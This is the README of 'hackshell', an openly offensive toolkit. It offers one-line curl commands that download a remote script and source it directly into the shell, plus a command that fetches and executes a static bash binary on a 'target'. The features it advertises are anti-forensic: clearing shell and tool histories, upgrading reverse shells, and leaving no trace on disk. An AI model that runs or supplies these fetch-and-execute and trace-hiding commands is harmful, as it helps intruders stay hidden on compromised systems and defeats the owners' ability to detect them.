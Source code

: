 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

It works best with bash. Download BASH if there is no bash on your target:
```shell
URL="https://bin.ajam.dev/$(uname -m)/bash"
[ "$(uname -m)" == i686 ] && URL='https://github.com/polaco1782/linux-static-binaries/raw/refs/heads/master/x86-i686/bash'
curl -obash -SsfL "${URL}" && chmod 700 bash && ./bash --version && exec ./bash -il
```
